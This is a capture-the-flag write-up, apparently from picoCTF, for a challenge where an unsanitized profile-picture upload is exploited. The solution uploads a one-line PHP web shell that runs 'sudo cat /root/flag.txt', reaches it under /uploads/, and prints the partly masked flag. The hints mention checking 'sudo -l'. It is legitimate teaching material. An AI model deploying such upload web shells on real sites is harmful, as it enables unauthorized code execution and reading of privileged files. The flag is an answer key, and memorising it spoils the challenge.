

## Challenge 🧩

A developer has added profile picture upload functionality to a website. However, the implementation is flawed, and it presents an opportunity for you. Your mission, should you choose to accept it, is to navigate to the provided web page and locate the file upload area. Your ultimate goal is to find the hidden flag located in the /root directory.

Author: Prince Niyonshuti N.</br>
Points: 100

Hints:

1. File upload was not sanitized
2. Whenever you get a shell on a remote machine, check sudo -l

## Solution 🕵️‍♂️

Since the uploads are not sanitized, upload simple php shell.

```php
<?php
echo exec("sudo cat /root/flag.txt");
?>
```


Visit `/uploads/<file-name>.php`



## Flag 🚩

`picoCTF{wh47_c4n_u_d0_wPHP_xxxxxxxx}`
